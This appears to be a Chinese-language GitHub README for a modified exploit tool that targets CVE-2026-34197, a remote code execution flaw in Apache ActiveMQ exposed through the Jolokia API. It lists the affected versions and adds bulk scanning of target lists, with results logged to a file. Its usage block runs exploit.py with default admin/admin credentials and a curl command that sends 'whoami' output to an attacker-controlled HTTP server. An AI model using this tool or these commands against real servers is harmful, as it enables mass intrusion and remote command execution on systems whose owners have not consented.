



## CVE-2026-34197 — Apache ActiveMQ RCE vía Jolokia API

### 漏洞描述

`CVE-2026-34197`是一个影响Apache ActiveMQ的远程代码执行漏洞,该漏洞利用了Jolokia API的JMX功能,允许攻击者通过JMX调用执行任意命令.

### 影响版本

- Apache ActiveMQ < 5.19.4
- 6.0.0 <= Apache ActiveMQ < 6.2.3

### 漏洞利用

原作者:**DEVSECURITYSPRO**
 [https://github.com/DEVSECURITYSPRO/CVE-2026-34197](https://github.com/DEVSECURITYSPRO/CVE-2026-34197)

二开后可导入`ip/域名`文件批量测试CVE-2026-34197漏洞,并将有漏洞的IP地址记录到`result.txt`文件中

```bash
# 脚本会自启一个http服务器用于接收恶意xml文件,监听端口为http_port,并且我们需要自启一个http服务器用于测试漏洞,因此需要2个空闲的端口

python3 -m http.server attacker_port_1

# 测试单个target

python3 exploit.py -t vuln_ip -l attacker_ip -lp attacker_port_2 -c 'curl http://attacker_ip:attacker_port_1/$(whoami)' -u admin -p admin 

# 批量测试漏洞
python3 exploit.py -i ip_list -l attacker_ip -lp attacker_port_2 -c 'curl http://attacker_ip:attacker_port_1/$(whoami)' -u admin -p admin
```

---

#### 脚本效果



---

#### 外带结果



---

#### result_ip



